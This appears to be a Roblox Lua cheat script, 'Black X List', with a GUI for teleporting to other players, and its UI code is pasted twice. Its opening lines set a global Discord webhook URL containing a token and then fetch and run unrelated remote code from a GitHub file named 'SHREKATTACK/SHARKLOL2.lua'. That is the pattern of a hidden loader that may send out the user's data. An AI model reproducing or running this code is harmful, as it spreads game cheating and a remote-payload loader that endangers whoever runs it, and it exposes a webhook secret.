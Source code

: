 ----------------------
-- Black X List NO 1 --
----------------------
_G.webhooksdiscord = "https://discord.com/api/webhooks/896290832276156446/57qrJg21MEwauIiEjRmwNlsmdix5zMrAAGyNYYRgqS1_louxE5Tp329vfTgU5DGembje"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()
local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))() local Window = Library.CreateLib("Black X List", "DarkTheme") local Tab = Window:NewTab("Credit") local Section = Tab:NewSection("BlackList Hub") local Tab = Window:NewTab("Players") local Section = Tab:NewSection("Teleport")
players = {}

for i,v in pairs(game:GetService("Players"):GetChildren()) do table.insert(players,v.Name) end

Section:NewDropdown("Select Player", " ", players, function(abc) Select = abc end)

Section:NewButton("Refresh", " ", function() table.clear(players) for i,v in pairs(game:GetService("Players"):GetChildren()) do table.insert(players,v.Name) end end)

Section:NewButton("Teleport", " ", function() game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Select].Character.HumanoidRootPart.CFrame end)
local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("Black X List", "DarkTheme")
local Tab = Window:NewTab("Credit")
local Section = Tab:NewSection("BlackList Hub")
local Tab = Window:NewTab("Players")
local Section = Tab:NewSection("Teleport")
--------------------

players = {}

for i,v in pairs(game:GetService("Players"):GetChildren()) do
   table.insert(players,v.Name)
end

Section:NewDropdown("Select Player", " ", players, function(abc)
    Select = abc
end)


Section:NewButton("Refresh", " ", function()
    table.clear(players)
for i,v in pairs(game:GetService("Players"):GetChildren()) do
   table.insert(players,v.Name)
end
end)

Section:NewButton("Teleport", " ", function()
    game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = game.Players[Select].Character.HumanoidRootPart.CFrame
end)

